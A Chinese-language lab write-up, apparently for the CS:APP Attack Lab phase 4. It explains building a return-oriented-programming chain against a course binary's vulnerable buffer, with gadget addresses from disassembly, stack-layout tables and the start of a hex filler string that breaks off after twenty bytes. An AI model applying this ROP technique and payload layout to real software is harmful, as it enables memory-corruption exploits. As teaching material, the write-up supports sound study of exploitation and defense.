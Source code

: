 最直接的解法思路自然就是

|栈空间|填充|
|:---:|:---:|
|(launch函数栈帧)|
|0x4017ec|return address 
|(test函数栈帧)|
|8字节|cookie
|`5f c3`所在的地址 |gadget address 1
|(getbuff函数栈帧)|
|40字节buffer|填充任意字符
其中
```
gadget 1:
	pop    %rdi
	ret

return address:
	0x4017ec <touch2>
```
gadget address1 对应的字节指令是`5f c3`,但是在farm.d中找不到,只好借助中间变量
注意到
```
0x00000000004019a7 <addval_219+0>:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
# 58 90 c3 :	pop		%rax;ret
0x00000000004019a0 <addval_273+0>:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
# 48 89 c7 c3 :		movq	%rax,%rdi;ret
```
所以gadget应该设计为:
```
gadget 1:
	pop    %rax
	ret

gedget 2:
	movq    %rax,%rdi
	ret
```
相应地,栈空间应该设计为:

|栈空间|填充|
|:---:|:---:|
|(launch函数栈帧)|
|0x4017ec|touch2 address
|0x4019a2|gadget address 2
|(test函数栈帧)|
|8字节|cookie
|0x4019ab|gadget address 1
|(getbuff函数栈帧)|
|40字节buffer|填充任意字符
根据以上设计,填充的字符串为
```
/* Phase4 */
ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff ff ff 
```